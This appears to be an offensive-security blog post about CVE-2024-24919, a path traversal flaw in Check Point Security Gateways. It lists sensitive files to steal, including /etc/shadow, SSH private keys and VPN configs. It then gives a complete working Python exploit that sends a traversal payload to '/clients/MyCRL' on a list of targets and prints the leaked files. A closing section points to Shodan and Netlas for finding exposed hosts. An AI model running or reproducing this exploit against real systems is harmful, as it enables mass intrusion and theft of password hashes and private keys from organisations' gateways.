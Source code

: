 ```yaml
---
title: CVE-2024-24919
description: Allows an attacker to read certain information on Check Point Security Gateways once connected to the internet and enabled with remote Access VPN or Mobile Access Software Blades.
author: BW
date: 2024-06-13 20:00:00 - 0500
categories: [CyberSecurity, Offensive Security]
tags: [offsec]     # TAG names should always be lowercase
image:
  path: /assets/img/posts/2024-06-13-CVE-2024-24919/CVE-2024-24919.png
  lqip: /assets/img/posts/2024-06-13-CVE-2024-24919/CVE-2024-24919.png
---
```

Proof of Concept python script that exploits what's essentially a path traversal issue.

Below are a list of files that are vulnerable - including the shadow file which contains the hashed passwords.
../../../../../../../etc/fstab
../../../../../../../etc/shadow
../../../../../../../sysimg/CPwrapper/SU/Products.conf
../../../../../../../config/db/initial
../../../../../../../etc/passwd
../../../../../../../home/*/.ssh/authorized_keys
../../../../../../../opt/checkpoint/conf/
../../../../../../../etc/ssh/sshd_config
../../../../../../../etc/vpn/vpn.conf
../../../../../../../home/*/.ssh/id_rsa

### The PoC Script
```python
import argparse
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning

# Suppress SSL warnings
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

vuln = ['root:', 'nobody:']

def make_request(url, payload=None, headers=None):
    try:
        response = requests.post(url, data=payload, headers=headers, verify=False)
        if response.ok:
            for word in vuln:
                if word in response.text:
                    print(f"[+] {url} is vulnerable")
                    if payload and payload.startswith("aCSHELL/../../../../../../../etc/shadow"):
                        print("╔══════════════════════════════════════════════════════╗")
                        print("║                      etc/shadow found:               ║")
                        print("╚══════════════════════════════════════════════════════╝")
                        print("╔══════════════════════════════════════════════════════╗")
                        print(f"                      {response.text}                ")
                        print("╚══════════════════════════════════════════════════════╝")
                    elif payload:
                        print("╔══════════════════════════════════════════════════════╗")
                        print("║                      Your file was found:            ║")
                        print("╚══════════════════════════════════════════════════════╝")
                        print("╔══════════════════════════════════════════════════════╗")
                        print(f"                      {response.text}                ")
                        print("╚══════════════════════════════════════════════════════╝")
                    return
            print(f"[-] {url} is not vulnerable")
        else:
            print(f"[-] {url} responded with status code: {response.status_code}")
    except requests.RequestException as e:
        print(f"Error making request to {url}: {e}")

def main():
    payload = "aCSHELL/../../../../../../../etc/shadow"
    parser = argparse.ArgumentParser(description="CVE-2024-24919 POC")
    parser.add_argument("-l", metavar='filename', type=str, help="File containing list of HTTP/HTTPS targets")
    parser.add_argument("-f", metavar='file', type=str, help="File to read for custom payload (May break on multiple targets with unknown files.)")
    args = parser.parse_args()

    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "none",
        "Sec-Fetch-User": "?1",
        "Dnt": "1",
        "Sec-Gpc": "1",
        "Te": "trailers",
        "Connection": "close"
    }

    payload_base = "aCSHELL/../../../../../../../{}"

    if args.f:
        payload = payload_base.format(args.f)

    if args.l:
        try:
            with open(args.l, 'r') as file:
                urls = file.readlines()
                for url in urls:
                    url = url.strip()
                    if url.startswith('http://') or url.startswith('https://'):
                        make_request(url + '/clients/MyCRL', payload=payload, headers=headers)
                    else:
                        print(f"Skipping invalid URL: {url}")
        except FileNotFoundError:
            print(f"Error: File '{args.l}' not found.")
    else:
        print("Please provide a file containing list of HTTP/HTTPS targets using -l option.")

if __name__ == "__main__":
    main()
```
{: file='exploit.py'}

### Finding targets

![Desktop View](/assets/img/posts/2024-06-13-CVE-2024-24919/netlas.png){: width="972" height="589" .w-75 .normal}

![Desktop View](/assets/img/posts/2024-06-13-CVE-2024-24919/shodan.png){: width="972" height="589" .w-75 .normal}

